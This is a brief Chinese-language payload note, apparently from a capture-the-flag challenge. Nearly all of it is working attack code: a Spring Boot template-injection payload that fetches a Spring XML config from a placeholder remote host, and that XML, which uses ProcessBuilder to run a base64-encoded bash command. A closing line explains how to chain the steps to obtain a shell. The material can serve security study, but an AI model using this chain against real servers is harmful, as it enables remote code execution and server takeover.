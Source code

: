 ### payload

模板

```
{% set y= beans.get("org.springframework.boot.autoconfigure.internalCachingMetadataReaderFactory").resourceLoader.classLoader.loadClass("java.beans.Beans") %}
{% set yy =  beans.get("jacksonObjectMapper").readValue("{}", y) %}
{% set yyy = yy.instantiate(null,"org.springframework.context.support.ClassPathXmlApplicationContext") %}
{{ yyy.setConfigLocation("http://xxxx/1.xml") }}
{{ yyy.refresh() }}
```

xml文件

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>echo Li9nZXRmbGFnID4gL3RtcC9mbGFn|base64 -d|bash -i</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

先传模板再爆破包含，拿shell